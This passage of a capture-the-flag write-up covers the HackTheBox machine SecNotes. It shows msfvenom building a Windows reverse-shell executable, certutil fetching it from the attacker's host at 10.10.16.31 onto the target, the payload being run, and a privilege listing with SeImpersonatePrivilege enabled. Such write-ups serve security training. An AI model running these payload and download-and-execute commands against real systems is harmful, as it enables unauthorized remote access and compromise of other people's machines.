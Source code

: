 ```bash
┌──(kali㉿kali)-[~/Downloads/HTB/SecNotes]
└─$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.16.31 lport=2222 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```
{: .nolineno}

I transfered this payload through `certutil` and you can also use `smb` to upload this payload in `C:\Temp` location →

```bash
C:\inetpub\new-site>mkdir C:\TEmp; cd C:\Temp
C:\TEmp>certutil -f -urlcache http://10.10.16.31/shell.exe shell.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\TEmp>
C:\inetpub\new-site>cd C:\Temp

C:\TEmp>dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\TEmp

01/04/2024  11:39 PM    <DIR>          .
01/04/2024  11:39 PM    <DIR>          ..
01/04/2024  11:39 PM             7,168 shell.exe
               1 File(s)          7,168 bytes
               2 Dir(s)  13,765,730,304 bytes free

C:\TEmp>shell.exe
```
{: .nolineno}

I got the proper shell here and lets see the privileges →

```bash
C:\TEmp>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

C:\TEmp>
```
{: .nolineno}
